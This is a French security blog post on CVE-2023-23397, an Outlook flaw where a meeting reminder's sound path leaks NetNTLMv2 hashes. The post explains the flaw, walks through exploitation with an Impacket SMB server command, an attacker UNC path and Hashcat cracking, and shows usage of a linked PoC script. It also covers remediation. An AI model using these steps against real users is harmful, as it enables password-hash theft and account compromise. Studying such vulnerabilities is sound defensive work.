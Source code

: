 ```yaml
---
title: "CVE-2023-23397 - La réunion Outlook qui exfiltre votre mot de passe."
date: 2023-03-24T17:25:42+01:00
draft: false
images: [/images/cve-outlook/CVE-2023-23397.png]
featuredImage: "/images/cve-outlook/CVE-2023-23397.png"
featuredImagePreview: "/images/cve-outlook/CVE-2023-23397.png"
---
```


# ⏰ Le rappel de réunion qui vous veut du mal

## Découverte

Le 14 mars 2023, la société `MdSec` publiait [un article](https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability/) traitant d'une nouvelle vulnérabilité corrigée dans la dernière mise à jour proposée par Microsoft.

La vulnérabilité était décrite de la façon suivante : 

{{< admonition quote "Patch KB5005413" >}}
Microsoft Office Outlook contains a privilege escalation vulnerability that allows for a NTLM Relay attack against another service to authenticate as the user.
{{< /admonition >}}

L'analyse d'un [script](https://github.com/microsoft/CSS-Exchange/blob/a4c096e8b6e6eddeba2f42910f165681ed64adf7/docs/Security/CVE-2023-23397.md) d'analyse fournit par Microsoft permet d'obtenir quelques indices sur l'exploitation de cette vulnérabilité.

## Détails techniques

Le script indique certains élements :

```powershell
<#
.SYNOPSIS
    This script audits mails, calendar and task items and check if PidLidReminderFileParameter property is populated or not.
```

```powershell
$searchFilterPidLidReminderFileParameterExists = New-Object Microsoft.Exchange.WebServices.Data.SearchFilter+Exists($mailInfo["PidLidReminderFileParameter"])
$searchFilterCollection.Add($searchFilterPidLidReminderFileParameterExists)
```

```powershell
if (-not $item.RemoveExtendedProperty($mailInfo["PidLidReminderFileParameter"])) {
    Write-Host ("Property already cleared on entry number: $entryCount, Line number: $($entryCount + 1)") -ForegroundColor Yellow
    $invalidEntries.Add($entryCount)
    continue
}
```

Le script recherche les emails contenant l'attribut `PidLidReminderFileParameter`. Ce paramètre permet de contrôler la ressource jouée lors du rappel d'une réunion.

Il est donc possible de conclure :

- Outlook souffre d'un **manque de contrôle sur la saisie de l'utilisateur** qui permet de configurer le son d'un rappel de réunion et de rendez-vous. 
- L'attaquant est effectuable sans aucune manipulation de la part de l'utilisateur (vulnérabilité de type "zero click").
- L'attaquant est capable de forcer une victime à établir une connexion avec son serveur afin de dérober son **condensat NetNTLM**.

Un attaquant exploitant cette vulnérabilité récupère un condensé NetNTLMv2 basé sur le mot de passe de l'utilisateur piégé via une requête SMB. La requête est déclenchée dès que le courrier arrive dans la boîte de réception.

## Exploitation

### Pas à pas

Pour exploiter cette faiblesse il est nécessaire d'agir en plusieurs étapes.

Dans un premier temps, il faut ouvrir un serveur SMB afin de réceptionner le condensat NetNTLM tansmis par la victime (par exemple avec Impacket comme ci-dessous).

```bash
smbserver.py -smb2support EXEGOL .
```

![Serveur SMB](/images/cve-outlook/2023-09-12-17-23-49.png)

Une fois que le serveur est configuré, il faut configuré la réunion. Pour cela, il faut faire pointer le rappel de la réunion vers le serveur de l'attaquant. Par exemple : `\\10.10.10.10\EXEGOL\` pour s'adapter à la commande précédente.

![](/images/cve-outlook/2023-09-12-17-25-33.png)

Le rendez-vous positionné, son arrivée dans la boite mail de la victime déclenche l'envoi d'un condensat NetNTLMv2 vers le serveur de l'attaquant.

![](/images/cve-outlook/2023-09-12-17-27-15.png)

Ce condensat a été créée à partir du mot de passe de la victime. Une attaque par force brute (ci-dessous avec `Hashcat`) à l'aide d'une liste de mot de passe adéquat permet de retrouver le mot de passe exfiltré.

![](/images/cve-outlook/2023-09-12-17-29-19.png)


### PoC final

Le PoC final est réalisable facilement.

![](/images/cve-outlook/poc.gif)


## Automatisation

Ce type d'exploit est facilement automatisable. Un PoC est disponible sur le GitHub de Trackflaw : https://github.com/Trackflaw/CVE-2023-23397

Ce PoC agit en plusieurs étapes :

1. Il créé un fichier `.msg` pointant vers le serveur de l'attaquant.
2. Ce fichier de réunion est mis en pièce jointe d'un email.
3. L'email est transmis à la victime.

Utilisation du PoC

```python
python CVE-2023-23397.py

usage: CVE-2023-23397.py [-h] -p PATH
CVE-2023-23397.py: error: the following arguments are required: -p/--path

python CVE-2023-23397.py --path '\\yourip\'
```

## Risques et remédiations

Les risques pour ce type de vulnérabilité sont nombreux. Un attaquant est en mesure de réaliser un certains nombre d'actions malveillantes :

- Retrouver le mot de passe de l'utilisateur.
- Transmettre le condensat afin de s'authentifier à la place de l'utilisateur.
- Accéder à des ressources réseaux.
- Usurper des identités.
- Compromettre des serveurs et des stations de travail.
- Etc

Afin de se protéger contre cette vulnérabilité, Microsoft a publié un correctif disponible depuis plusieurs jours avant la publication du premier PoC officiel.

## Vidéo

Enfin, une vidéo plus détaillée est disponible sur la chaine YouTube de Trackflaw.

{{< youtube 6bhJPwFgs8Q >}}